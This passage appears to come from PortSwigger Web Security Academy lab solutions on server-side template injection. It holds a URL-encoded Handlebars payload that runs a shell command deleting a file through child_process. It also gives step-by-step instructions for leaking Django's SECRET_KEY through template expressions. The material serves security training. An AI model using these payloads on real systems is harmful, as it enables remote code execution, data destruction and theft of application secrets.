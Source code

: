```
https://your-lab-id.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```
6. The lab should be solved when you load the URL.

## Server-side template injection with information disclosure via user-supplied objects
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects


### Solution
1. Log in and edit one of the product description templates.
2. Change one of the template expressions to something invalid, such as a fuzz string ``${{<%[%'"}}%\``, and save the template. The error message in the output hints that the Django framework is being used.
3. Study the Django documentation and notice that the built-in template tag ``debug`` can be called to display debugging information.
4. In the template, remove your invalid syntax and enter the following statement to invoke the ``debug`` built-in:
```
{% debug %}
```
5. Save the template. The output will contain a list of objects and properties to which you have access from within this template. Crucially, notice that you can access the ``settings`` object.
6. Study the ``settings`` object in the Django documentation and notice that it contains a ``SECRET_KEY`` property, which has dangerous security implications if known to an attacker.
7. In the template, remove the ``{% debug %}`` statement and enter the expression 
```
{{settings.SECRET_KEY}}
```
8. Save the template to output the framework's secret key.
9. Click the "Submit solution" button and submit the secret key to solve the lab.
